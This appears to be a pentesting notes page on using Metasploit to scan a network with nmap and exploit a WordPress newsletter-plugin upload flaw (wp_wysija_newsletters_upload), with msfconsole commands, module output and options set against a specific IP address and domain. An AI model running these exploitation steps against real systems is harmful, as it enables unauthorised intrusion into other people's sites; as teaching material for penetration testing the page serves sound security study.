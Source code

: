 ```yaml
---
title: Metasploit
parent: pentesting
---
```


The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![][image-1]

#### Scan an Entire Network

-   This will save the results to the Metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![][image-2]

### Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![][image-3]

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

[image-1]: ../assets/pentesting/metasploit/575CF62D4C7E18CFD40566EA08E7D588.png

[image-2]: ../assets/pentesting/metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png

[image-3]: ../assets/pentesting/metasploit/67A7D5964C96C63BA11EEA707CB4A604.png
